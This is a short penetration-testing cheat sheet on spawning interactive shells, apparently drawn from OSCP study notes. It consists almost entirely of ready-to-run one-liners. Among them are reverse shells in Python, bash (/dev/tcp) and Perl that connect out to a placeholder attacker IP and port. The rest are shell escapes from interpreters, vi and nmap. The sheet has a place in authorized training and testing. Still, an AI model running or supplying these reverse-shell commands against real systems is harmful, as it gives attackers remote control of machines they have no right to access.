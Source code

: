 # TTY Spawning


Use `which $spawning-tool`

`Script`
```bash
script /dev/null -c bash
```

<b>Python:</b>
```bash
python -c 'import pty; pty.spawn("/bin/sh")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<[IP]>",<[PORT]>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
Bash:
```bash
echo os.system('/bin/bash')

/bin/sh -i
	
exec 5<>/dev/tcp/<[IP]>/<[PORT]> cat <&5 | while read line; do $line 2>&5 >&5; done
```

Perl:
```bash
perl —e 'exec "/bin/sh";'
# perl reverse shell
perl -e 'use Socket;$i="<[IP]>";$p=<[PORT]>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
	
Ruby
```bash
ruby -e exec "/bin/sh"
```

Lua
```bash
lua -e os.execute('/bin/sh')
```

From within IRB:
```
exec "/bin/sh"
```

From within vi:
```bash
:!bash
```
From within vi
```bash
:set shell=/bin/bash:shell
```

From within nmap:
```
!sh
```

## References

[pythonmaster GO-FOR-OSCP](https://github.com/pythonmaster41/Go-For-OSCP/blob/master/README.md)